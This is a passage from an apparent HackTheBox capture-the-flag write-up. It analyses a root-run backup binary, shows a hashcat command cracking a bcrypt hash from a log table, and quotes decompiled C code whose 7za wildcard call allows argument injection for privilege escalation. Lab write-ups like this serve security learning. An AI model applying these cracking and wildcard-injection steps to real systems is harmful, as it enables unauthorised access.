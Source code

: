 - `3. Reset admin password` just prints "Password has been reset"

![](/assets/obsidian/e493b2b2c7bfdeac07106a779bfa4cea.png)

- `2. Backup MySQL data` uses `mysqldump` with full path to export mysql database

![](/assets/obsidian/d3fcafab912a0816b4b5645f4b2ce605.png)

I've found a new hash from `admin_operation_log`, but the cleartext password was just `admin`

![](/assets/obsidian/4bb06c64e7f372c9aadf4757ba2ca2cd.png)

```bash
┌──(bravosec㉿fsociety)-[~/htb/Usage]
└─$ hashcat tmp.hash /opt/wordlists/rockyou.txt -m 3200
[...]
$2y$10$E9.N1P92fYSjJGQDfBrUaO05EHW4BxiQITrqjde/WQMKnAQ7k2HJK:admin
[...]
```

- `3. Project Backup` uses `7z` to backup the folder `/var/www/html` with wildcard in the arguments, which means we can specify arbitrary arguments by creating files at `/var/www/html`

```c
void backupWebContent(void)
{
  int iVar1;
  
  iVar1 = chdir("/var/www/html");
  if (iVar1 == 0) {
    system("/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *");
  }
  else {
    perror("Error changing working directory to /var/www/html");
  }
  return;
}
```
